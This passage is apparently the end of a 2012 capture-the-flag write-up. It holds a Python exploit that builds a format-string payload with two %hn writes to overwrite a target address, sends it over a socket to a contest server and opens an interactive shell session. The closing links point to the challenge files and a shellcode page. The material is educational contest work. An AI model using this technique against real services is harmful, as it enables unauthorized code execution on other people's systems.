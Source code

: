 first_size = (target_val >> 16) - len(first_part)                                 
second_size = (target_val &#038; 0xFFFF) - first_size - len(first_part)                
                                                                                  
first_addr = (len(first_part) / 4) + 3                                            
second_addr = first_addr + 1                                                      
                                                                                  
last_part = "%" + str(first_size) + "x%" + str(second_addr) + "$hn"               
last_part += "%" + str(second_size) + "x%" + str(first_addr) + "$hn"              
                                                                                  
payload = first_part + last_part + "\n"                                           
                                                                                  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                             
s.connect(('128.238.66.213', 23456))                                              
# s.connect(('127.0.0.1', 23456))                                                 
f = s.makefile('rw', bufsize=0)                                                   
                                                                                  
f.write(payload)                                                                  
                                                                                  
t = telnetlib.Telnet()                                                            
t.sock = s                                                                        
t.interact() 
</pre>

<span style="display:none;">Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google</a>+.</span>

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp400.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-3.14.07-PM.png
 [3]: http://www.shell-storm.org/shellcode/files/shellcode-606.php